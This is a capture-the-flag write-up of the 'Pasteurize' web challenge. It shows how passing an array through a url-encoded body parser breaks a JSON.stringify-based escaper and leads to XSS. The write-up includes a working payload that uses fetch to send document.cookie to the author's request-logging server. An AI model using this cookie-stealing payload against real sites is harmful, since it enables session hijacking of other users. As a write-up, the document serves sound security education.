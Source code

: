 # Pasteurize

**Problem Description:**

> This doesn't look secure. I wouldn't put even the littlest secret in here. My source tells me that third parties might have implanted it with their little treats already. Can you prove me right?<br>
>
> https://pasteurize.web.ctfcompetition.com/

## Solution

Upon visiting the page, I saw:

![pasteurize](./images/pasteurize.png)

I decided to view the source for the page, and I saw the following in it:

```html
<a href="/source" style="display:none">Source</a>
```

I decided to quickly take a look at what happens when I submit a paste, before visiting [/source](./source.js):

![submit](./images/submit.png)

It seems like we send a POST request to `/` with the paste contents in the request body, to which the server responds by redirecting us to the newly made paste. Interestingly, there is a "share with TJMike:microphone:" button. So, this challenge most likely deals with injection and stealing/leaking the cookies of the admin. Viewing the source for the paste page, I saw the following:

```html
SNIPPED SOME USELESS STUFF
<!-- TODO: Fix b/1337 in /source that could lead to XSS -->
    
<script>
    const note = "testing lalalalallalalala";
    const note_id = "4062e9d2-37a7-4524-ac93-11a8cba40e9d";
    const note_el = document.getElementById('note-content');
    const note_url_el = document.getElementById('note-title');
    const clean = DOMPurify.sanitize(note);
    note_el.innerHTML = clean;
    note_url_el.href = `/${note_id}`;
    note_url_el.innerHTML = `${note_id}`;
</script>

<script>
    const msg = (new URL(location)).searchParams.get('msg');
    const back = document.getElementById('back');
    const alert_div = document.getElementById('alert');
    const alert_container = document.getElementById('alert-container');
    back.onclick = () => history.back();
    if (msg) {
        alert_div.innerText = msg;
        alert_container.style.display = "block";
        setTimeout(() => {
            alert_container.style.display = "none";
        }, 4000);
    }
</script>
```

I have no idea what the TODO means, but what is rather interesting, is that the contents of our paste are stored as a string in JS... With this in mind, I finally looked at [/source](./source.js).

It seems like they use a url-encoded body parser, so we can pass arrays and JSON objects through the body:

```js
/* They say reCAPTCHA needs those. But does it? */
app.use(bodyParser.urlencoded({
  extended: true
}));
```

The following function is broken as hell, `JSON.stringify`? `slice(1, -1)`? What if unsafe is not a string? Nice.

```js
/* Who wants a slice? */
const escape_string = unsafe => JSON.stringify(unsafe).slice(1, -1)
  .replace(/</g, '\\x3C').replace(/>/g, '\\x3E');
```

Looks like the paste creation logic, does no checks to verify that the contents of the paste are a string:

```js
/* \o/ [x] */
app.post('/', async (req, res) => {
  const note = req.body.content;
  if (!note) {
    return res.status(500).send("Nothing to add");
  }
  if (note.length > 2000) {
    res.status(500);
    return res.send("The note is too big");
  }

  const note_id = uuidv4();
  try {
    const result = await DB.add_note(note_id, note);
    if (!result) {
      res.status(500);
      console.error(result);
      return res.send("Something went wrong...");
    }
  } catch (err) {
    res.status(500);
    console.error(err);
    return res.send("Something went wrong...");
  }
  await utils.sleep(500);
  return res.redirect(`/${note_id}`);
});
```

Remember, our `safe_content` ends up as a string in JS section of the response:

```js
/* Make sure to properly escape the note! */
app.get('/:id([a-f0-9\-]{36})', recaptcha.middleware.render, utils.cache_mw, async (req, res) => {
  const note_id = req.params.id;
  const note = await DB.get_note(note_id);

  if (note == null) {
    return res.status(404).send("Paste not found or access has been denied.");
  }

  const unsafe_content = note.content;
  const safe_content = escape_string(unsafe_content);

  res.render('note_public', {
    content: safe_content,
    id: note_id,
    captcha: res.recaptcha
  });
});
```

The XSS was obvious at this point. I sent a POST request to `/` with the following body:

```
content[]=;fetch(`https://my_url_that_logs_requests/${document.cookie}`);
```

Thus, `note.content` ends up as:

```js
[";fetch(`https://my_url_that_logs_requests/${document.cookie}`);"]
```

Therefore, the resulting JS in the paste page would contain the following snippet:

```js
const note = "";fetch(`https://my_url_that_logs_requests/${document.cookie}`);"";
```

Upon sharing the resulting paste page with TJMike, and looking at the request logs to my server, I saw:

![web](./images/web.png)
